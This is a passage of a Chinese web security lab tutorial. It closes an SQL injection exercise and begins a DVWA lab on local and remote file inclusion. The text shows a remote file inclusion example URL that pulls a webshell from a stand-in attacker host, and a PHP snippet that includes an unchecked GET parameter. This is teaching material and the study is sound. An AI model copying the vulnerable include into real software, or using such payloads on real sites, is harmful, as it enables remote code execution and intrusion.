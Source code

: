 user password 

。。。。。
</code></pre><h3 id="-">实验结果分析与总结</h3>
<p>工具注入的确比手工注入要方便的多，但工具使用起来不灵活，因此使用工具注入需要掌握手工注入的原理和方法，工具和手工配合，才能发挥出最佳的效果</p>
<h3 id="-">思考</h3>
<p>1.手工注入和工具注入有什么区别，他们的优缺点分别是什么？</p>
<p>2.如果在工具注入中遇到有WAF的网站该怎么办，想一想有什么办法和思路？</p>
</div>

### 文件包含漏洞的发现与利用  

<div id="sectionDoc" class="markdown-body czsc_con smallTxt "><h3 id="-">实验目的</h3>
<p>通过本实验，学习发现和利用文件包含漏洞。</p>
<h3 id="-">实验工具</h3>
<blockquote>
<ul>
<li><strong>DVWA </strong>:&gt;   DVWA (Dam Vulnerable Web Application)DVWA是用PHP+Mysql编写的一套用于常规WEB漏洞教学和检测的WEB脆弱性测试程序。包含了SQL注入、XSS、盲注等常见的一些安全漏洞。</li>
</ul>
</blockquote>
<h3 id="-">实验内容</h3>
<blockquote>
<p>本部分学习发现和利用文件包含漏洞</p>
</blockquote>
<p><strong>什么是文件包含漏洞？</strong></p>
<blockquote>
<p>简单的来说，就是我们用一个可控的变量作为文件名并以文件包含的的方式调用了它，漏洞就产生了。以PHP为例文件包含漏洞可以分为RFI(远程文件包含)和LFI（本地文件包含漏洞）两种。而区分他们最简单的方法就是php.ini中是否开启了allow_url_include。如果开启了我们就有可能包含远程文件，如果不是我们有可能包含本地的文件。</p>
</blockquote>
<ul>
<li><strong>本部分概览</strong><ul>
<li>初步了解文件包含漏洞</li>
<li>远程文件包含</li>
<li>本地文件包含</li>
</ul>
</li>
</ul>
<h3 id="-">实验步骤</h3>
<h4 id="-1-">步骤1 初步了解文件包含漏洞</h4>
<ul>
<li><strong>什么是文件包含漏洞</strong></li>
</ul>
<p>文件包含，包括本地文件包含（Locao file inclusion,LFI)和远程文件包含（Remote File Inclusion,RFI)两种形式。</p>
<p>首先，本地文件包含就是通过浏览器引进（包含）Web服务器上的文件，这种漏洞一般发生在浏览器包含文件时没有进行严格的过滤，允许遍历目录的字符注入浏览器并执行比如：</p>
<pre><code>asp?file=index.html
</code></pre><p>其次，远程文件简称RFI，该漏洞允许攻击者包含一个远程的文件，一般是远程服务器上的预先设置好的脚本，这种漏洞是由于浏览器对于用户输入没有进行检测，导致不同程度的信息泄露、拒绝服务攻击甚至在目标服务器上执行代码（比如：</p>
<pre><code>asp?file=http://www.hacker.com/webshell/shell.asp)
</code></pre><ul>
<li><strong>为什么要包含文件？</strong></li>
</ul>
<p>程序员写程序的时候，不喜欢干同样的事情，也不喜欢把同样的代码（比如一些公用的函数）写几次，于是就把需要公用的代码写在一个单独的文件里面，比如<code>share.php</code>，而后在其它文件进行包含调用。在php里，我们就是使用上面列举的那几个函数来达到这个目的的，它的工作流程：如果你想在 <code>main.php</code>里包含<code>share.php</code>,我将这样写<code>include("share.php")</code>就达到目的，然后就可以使用<code>share.php</code>中的函数了，像这个写死需要包含的文件名称的自然没有什么问题，也不会出现漏洞，那么问题到底是出在哪里呢？
有的时候可能不能确定需要包含哪个文件，比如先来看下面这个文件<code>index.php</code>的代码：</p>
<pre><code>if ($_GET[page]) {
include $_GET[page];
} else {
include "home.php";
}
</code></pre><p>很正常的一段PHP代码，它是怎么运作的呢？
上面这段代码的使用格式可能是这样的：</p>